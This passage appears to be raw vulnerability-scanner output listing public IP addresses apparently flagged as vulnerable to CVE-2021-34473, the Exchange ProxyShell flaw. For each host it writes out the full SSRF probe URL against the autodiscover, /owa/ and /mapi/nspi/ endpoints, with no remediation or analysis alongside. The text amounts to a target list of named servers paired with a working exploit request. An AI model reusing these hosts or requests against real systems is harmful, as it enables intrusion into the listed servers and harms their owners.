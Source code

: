 [CVE-2021-34473] [http] [critical] https://84.242.52.6/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://84.242.52.6/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 84.47.130.12  
  
---  
[CVE-2021-34473] [http] [critical] https://84.47.130.12/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://84.47.130.12/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 84.52.110.220  
  
---  
[CVE-2021-34473] [http] [critical] https://84.52.110.220/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://84.52.110.220/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 85.113.49.208  
  
---  
[CVE-2021-34473] [http] [critical] https://85.113.49.208/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://85.113.49.208/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 84.53.197.4  
  
---  
[CVE-2021-34473] [http] [critical] https://84.53.197.4/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://84.53.197.4/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 85.234.126.53  
  
---  
[CVE-2021-34473] [http] [critical] https://85.234.126.53/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://85.234.126.53/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 85.234.126.88  
  
---  